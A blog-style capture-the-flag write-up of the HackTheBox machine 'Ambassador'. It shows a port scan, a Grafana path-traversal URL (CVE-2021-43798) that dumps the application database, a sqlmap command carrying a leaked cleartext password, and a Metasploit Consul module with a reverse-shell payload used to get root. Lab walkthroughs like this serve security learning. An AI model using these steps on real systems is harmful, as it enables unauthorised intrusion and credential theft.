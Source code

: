 ```yaml
---
layout: default
title: Ambassador
author: k0z4c 
tags: hackthebox
asset: assets/htb/ambassador
---
```


## Come to my palace

Scanning for open ports it was easy to find ports 80, 3000 and 5432 open 
```bash
nmap -Pn -n -sC -sV -p- --max-rtt 600ms -oA all_tcp -vvv --open --stats-every 1s --packet-trace -e tun0 ambassador.htb
```

{% figure %}
![]({% link assets/htb/ambassador/nmap.png %})
{% endfigure %}

Port 3000 is actually exposing an http web server hosting Grafana 

{% figure %}
![]({% link assets/htb/ambassador/nmap_grafana.png %})
{% endfigure %}

Meanwhile on port 80 another server, the dev server, is hosted  

{% figure %}
![]({% link assets/htb/ambassador/ambassador_web.png %})
{% endfigure %}

The grafana service's  version  was found vulnerable to path traversal through CVE-2021-43798, 
so it was possible to dump the application database with 

```bash
http://10.10.11.183:3000/public/plugins/table-old/../../../../../../../../../../../../var/lib/grafana/grafana.db
```
{% figure %}
![]({% link assets/htb/ambassador/grafana_web.png %})
{% endfigure %}

An already-ready exploit can be used to get the database and the decryption key <https://github.com/pedrohavay/exploit-grafana-CVE-2021-43798>

Looking  through the database a cleartext password can be found within the **data_source** table 

{% figure %}
![]({% link assets/htb/ambassador/db_cleartext.png %})
{% endfigure %}

so it was possible to connect directly and dump the developer password 

```bash
sudo sqlmap -d 'mysql://grafana:dontStandSoCloseToMe63221!@ambassador.htb:3306/grafana' -D whackywidget -T users --dump 
```
{% figure %}
![]({% link assets/htb/ambassador/developer_access.png %})
{% endfigure %}

## Meet the Consul

Enumerating the listening tcp sockets on the box we can see that several ports are open from the local host side.
These can be related to the hashicorp consul services (https://developer.hashicorp.com/consul/docs/install/ports)

{% figure %}
![]({% link assets/htb/ambassador/consul_ports.png %})
{% endfigure %}

We can abuse the consul web service creating an agent that will execute our reverse shell.
But to do thiz a secret key will be needed.. that can be found within the history of the repository located at /opt/my-app/whackywidget through 

```bash
git diff c982db8eff6f10f8f3a7d802f79f2705e7a21b55
```

{% figure %}
![]({% link assets/htb/ambassador/git_leak.png %})
{% endfigure %}

so we can load the metasploit module and insert the parameter and get a root shell, after pivoting to the localhost interface. Then 

```bash
ssh -C -N  -f -L 8500:127.0.0.1:8500 developer@ambassador.htb 
```

So we configure the below settings and set the payload to linux/x86/shell_reverse_tcp  

{% figure %}
![]({% link assets/htb/ambassador/msfconfig.png %})
{% endfigure %}

Then we ran the exploit getting a root reverse shell 

{% figure %}
![]({% link assets/htb/ambassador/root.png %})
{% endfigure %}






